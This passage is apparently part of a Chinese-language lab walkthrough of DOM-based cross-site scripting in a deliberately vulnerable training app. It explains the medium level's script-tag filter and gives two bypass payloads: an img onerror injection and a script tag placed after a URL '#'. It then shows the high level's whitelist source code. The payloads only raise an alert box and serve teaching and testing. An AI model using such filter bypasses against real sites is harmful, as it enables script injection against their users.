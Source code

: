 

#### 代码分析

`stripos()` 函数：查找字符串在另一字符串中第一次出现的位置（不区分大小写）。(strpos区分大小写)

`header()` 函数：向客户端发送原始的 HTTP 报头。

服务端当default参数存在且不为空的时候处理, 并且过滤了`<script>`标签，如果出现则自动跳到 English，同时利用 strpos 过滤大小写



#### 漏洞利用

#### 法一：用HTML标签执行JS

如利用 img 标签：

```
default=English"></option></select><img src="" οnerrοr="alert('XSS')">
```

#### 法二：用Url截断，加 # 号

```
#default=<script>alert('XSS')</script>
```



### High

#### 源代码

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?>
```


